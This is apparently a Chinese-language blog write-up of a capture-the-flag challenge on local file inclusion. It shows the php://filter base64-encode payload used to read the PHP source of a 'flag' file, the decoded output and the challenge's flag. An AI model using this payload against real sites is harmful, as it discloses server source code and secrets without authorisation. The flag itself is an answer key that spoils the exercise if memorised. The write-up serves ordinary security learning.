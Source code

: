 ```yaml
---
layout:     post
title:      SJU-LFI-wp
subtitle:   
date:       2017-12-01
author:     FNX
header-img: img/home-bg-art.jpg
catalog: true
tags:
    - WP
    - LFI
    - WEB
---
```


# SJU 

## LFI

#### 0x00 [原理]
     文件包含漏洞（LFI）
     
#### 0x01 [目的]
     了解与掌握文件包含漏洞
     
#### 0x02 [环境]
     windows
     
#### 0x03 [工具]
     Chrome
     
#### 0x04 [步骤]

1.打开题目，emmmm，出现了假的flag

![](/img/lfi1.png)

2.仔细观察，发现有提示目标文件，文件名为：flag

3.尝试文件包含漏洞,可参考[LFI](http://blog.csdn.net/hitwangpeng/article/details/45952625)

4.使用PHP封装协议：读取PHP文件

  例子如下：http://www.example.com/index.php?page=php://filter/read=convert.base64-encode/resource=config.php

  访问URL，得到经过Base64加密后的字符串，这段代码就是Base64加密过后的PHP源代码，解密后可以得到原本的“样貌”。

  根据例子构造本题的payload：?file=php://filter/read=convert.base64-encode/resource=flag

4.得到Base64加密过后的PHP源代码：PD9waHAKCi8vIHRoaXMgaXMgdGhlIHJlYWwgZmxhZyEKLy8gY29uZ3JhdHVsYXRpb25zIQokZmxhZyA9IHVybGRlY29kZShiYXNlNjRfZGVjb2RlKCdVMHBWSlRkQ2RISjVhVzVuWHpKZmRYTmxYMHhHU1Y5NVpXRm9YeVV5TVNVM1JBPT0nKSk7Cgo/PgpTSlV7dGhpc19pc190aGVfZmFrZV9mbGFnfQo8YnI+PGJyPgpTb3JyeSwgdGhpcyBpcyBub3QgdGhlIHJlYWwgZmxhZy4K

  ![](/img/lfi2.png)

5.在线Base64解码：

  ![](/img/lfi3.png)

  得到flag的具体内容：flag = urldecode(base64_decode('U0pVJTdCdHJ5aW5nXzJfdXNlX0xGSV95ZWFoXyUyMSU3RA=='))

6.先Base64解码：SJU%7Btrying_2_use_LFI_yeah_%21%7D
  
  ![](/img/lfi4.png)

  再urldecode：SJU{trying_2_use_LFI_yeah_!}

  ![](/img/lfi5.png)

7.flag：SJU{trying_2_use_LFI_yeah_!}
#### 0x05 [总结]
    文件包含
